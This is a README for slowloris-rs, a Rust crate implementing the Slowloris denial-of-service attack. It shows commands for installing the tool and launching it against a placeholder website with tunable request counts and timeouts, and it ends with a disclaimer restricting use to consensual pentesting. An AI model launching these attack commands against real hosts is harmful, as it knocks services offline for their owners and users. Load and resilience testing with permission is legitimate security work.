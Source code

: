 [![Crates.io](https://img.shields.io/crates/v/slowloris.svg)](https://crates.io/crates/slowloris)  
# slowloris-rs
The slow loris attack, now implemented in Rust!

## Usage
Installation:
```bash
$ cargo install slowloris
```

Attacking a host:  
```bash
$ slowloris https://some_random_website.com
```

Updating the slowloris command:
```bash
$ cargo install --force slowloris
```

Specifying the time between attacks and the number of parallel requests:
```bash
$ slowloris https://some_random_website.com --timeout 15 --requests 2000
```

## Features
- Fully concurrent
- Automatic retry
- Can attack TLS
- Customizable timout and number of requests

## Disclaimer
This tool is meant for consensual pentesting. Do not use it to attack hosts without their explicit permission.